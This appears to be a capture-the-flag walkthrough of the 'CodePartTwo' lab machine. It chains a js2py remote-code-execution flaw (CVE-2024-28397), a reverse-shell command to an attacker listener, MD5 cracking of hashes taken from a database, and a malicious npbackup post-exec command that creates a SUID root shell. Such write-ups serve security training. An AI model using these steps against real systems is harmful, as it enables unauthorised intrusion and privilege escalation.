

## Reconnaissance

### Nmap Scan

```bash
sudo nmap -sC -sV 10.129.232.59 -oN scan
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Key findings:

- SSH on port 22 (OpenSSH 8.2p1)
- Web application on port 8000 running Gunicorn 20.0.4
- Operating system: Ubuntu Linux

## Enumeration

### Web Application Analysis

Navigating to `http://10.129.232.59:8000` reveals a web application titled "Welcome to CodePartTwo".


The application features a **"Download App"** button that provides the source code for review.

### Source Code Review

After downloading and analyzing the source code, a critical endpoint was identified:

```python
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

Analysis:

- The `/run_code` endpoint accepts POST requests with JavaScript code
- It uses `js2py.eval_js()` to evaluate the code
- The result is returned as JSON

### Testing the Endpoint

Testing with a simple JavaScript expression `2 + "2"`:



The response confirms the application executes JavaScript code server-side.

### Vulnerability Identification

Examining `requirements.txt` revealed a vulnerable dependency:

```
js2py==0.74
```

Research findings:

- js2py version 0.74 is vulnerable to **CVE-2024-28397**
- The vulnerability allows remote code execution (RCE)
- It exists even when `js2py.disable_pyimport()` is used

## Initial Foothold

### Exploiting CVE-2024-28397

Using a public exploit for CVE-2024-28397 to gain a reverse shell:

```bash
python3 exploit.py --target http://10.129.232.59:8000/run_code --lhost 10.10.14.143 --lport 4444
```

Setting up the listener:

```bash
python3 penelope.py
```

A reverse shell was established as the `app` user:

```bash
app@codeparttwo:~/app/instance$ whoami
app
```

## Privilege Escalation — User

### Database Enumeration

Exploring the application directory revealed a SQLite database:

```bash
app@codeparttwo:~/app/instance$ ls
users.db
```

Examining the database structure:

```bash
sqlite3 users.db
sqlite> .tables
code_snippet  user
```

Extracting user credentials:

```bash
sqlite> SELECT * FROM user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

### Password Cracking

The hash `649c9d65a206a75f5abe509fe128bce5` is MD5. Cracking it yields:

**Cracked password:** `sweetangelbabylove`

### Lateral Movement

Switching to the `marco` user:

```bash
su marco
Password: sweetangelbabylove
```

User flag obtained:

```bash
marco@codeparttwo:~$ cat user.txt
453d7544f5f05a11ebb2ced32393b8df
```

## Privilege Escalation — Root

### Sudo Privileges Enumeration

Checking sudo permissions for the `marco` user:

```bash
marco@codeparttwo:~$ sudo -l
User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

The user can run `/usr/local/bin/npbackup-cli` as root without a password.

### Binary Analysis

Examining the help menu:

```bash
sudo /usr/local/bin/npbackup-cli --help
```

Key findings:

```
optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG_FILE, --config-file CONFIG_FILE
  -b, --backup          Run a backup
```

The binary accepts a custom configuration file via the `-c` flag.

### Configuration File Exploitation

Examining the default configuration:

```bash
marco@codeparttwo:~$ cat npbackup.conf | grep command
      stdin_from_command:
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      repo_password_command:
```

Attack vector: the `post_exec_commands` array allows arbitrary command execution after backup operations.

### Creating a Malicious Configuration

Copying and modifying the configuration file:

```bash
cp npbackup.conf /tmp/pwn.conf
vi /tmp/pwn.conf
```

Modified configuration:

```yaml
post_exec_commands:
  - cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash
```

This command copies `/bin/bash` to `/tmp/rootbash` and sets the SUID bit (4755) on the binary.

### Executing the Exploit

Running the backup with the malicious configuration:

```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/pwn.conf -b
```

### Root Access

Executing the SUID bash binary:

```bash
marco@codeparttwo:~$ /tmp/rootbash -p
rootbash-5.0# whoami
root
```

Root flag obtained:

```bash
rootbash-5.0# cat /root/root.txt
0d0fda784485e30c55227dcbb22fd9b0
```
